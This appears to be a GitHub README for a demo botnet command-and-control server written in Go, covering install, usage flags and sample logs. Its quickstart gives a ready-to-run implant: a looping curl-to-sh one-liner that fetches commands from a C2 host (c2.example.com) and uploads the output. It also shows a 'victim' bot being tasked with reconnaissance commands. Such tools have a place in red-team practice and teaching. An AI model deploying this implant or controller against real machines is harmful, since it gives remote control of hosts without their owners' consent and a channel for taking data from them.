 demobotnetcontroller
====================
Demo-grade botnet controller

Features:
- Comms via HTTPS with a self-signed cert.
- Tasking and output via plaintext files.
- Bot-tracking via plaintext files' mtimes.
- Minimal documentation-caused confusion.
- Minimal distractions due to excessive (or any?) features.
- Exploit resistance via `pledge(2)` and `unveil(2)` (OpenBSD-only).
- Tests (probably mostly OpenBSD-only).
- ~Only tested~ Works well with curl in a loop.

For legal use only.

Quickstart
----------
1. Download/install
   ```sh
   go install github.com/magisterquis/demobotnetcontroller@latest
   ```
2. Start it going
   ```sh
   demobotnetcontroller -h # For good measure
   demobotnetcontroller
   ```
   We should see something like
   ```json
   {
           "time": "2025-10-31T01:52:03.556730378+01:00",
           "level": "INFO",
           "msg": "Server starting",
           "fingerprint": "Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE=",
           "address": "127.0.0.1:4433",
           "PID": 62063,
           "directory": "demobotnet",
           "prefix": "/bots/"
   }
   ```
3. TLS is self-signed.  Use the fingerprint and URL prefix from the first log
   message to roll an HTTPS/shell something, e.g.
   ```sh
   while :; do
   ( curl \
           --insecure \
           --max-time 10 \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           https://c2.example.com:4433/bots/$(hostname)-$$ |
   sh 2>&1 |
   curl \
           --insecure \
           --max-time 10 \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           --upload-file - \
           https://c2.example.com:4433/bots/$(hostname)-$$ ) &
   sleep 10
   done
   ```
   Last element of the path is the Implant ID, in this case a hostname and the
   script's PID.

   When it first calls back, we should see something like
   ```json
    {
            "time": "2025-11-01T15:34:31.848009955+01:00",
            "level": "INFO",
            "msg": "New ID",
            "request": {
                    "remote_address": "10.135.2.240:39398",
                    "method": "PUT",
                    "host": "c2.example.com:4433",
                    "request_uri": "/bots/victim.com-1234",
                    "user_agent": "curl/8.14.1"
            },
            "id": "victim-1234"
    }
   ```
4. Tasking and output are in the directory in the first log message.  Output
   is in a file with the same name as Implant IDs.  Tasking goes in a file with
   the same name plus `_task`.
   ```sh
   # Be in the directory with tasking and output.
   cd demobotnet
   # Give it the the sort of tasking one should give a new bot.
   echo 'ps awwwfux; uname -a; id' >> victim.com-1234_task
   # Watch for output
   tail -f victim.com-1234
   ```

Usage
-----
```
Usage: demobotnetcontroller [options]

Demo-grade botnet controller.

- Comms over HTTP, GET for tasking, POST/PUT for output.
- URL path must have the right prefix, last component is bot ID.
- IDs must be [A-Za-z0-9-.]+
- Tasking goes into files named after the bots' IDs plus _task.
- Output will go to files named after the bots' IDs.
- TLS Fingerprint (for --pinnedpubkey) is in _tls_fingerprint.

Options:
  -debug
    	Enable debug logging
  -dir directory
    	Bot tasking/output directory (default "demobotnet")
  -listen address
    	Listen address (default "0.0.0.0:4433")
  -max-runtime duration
    	Maximum run duration
  -prefix string
    	HTTP URL path prefix for bots (default "/bots")
```
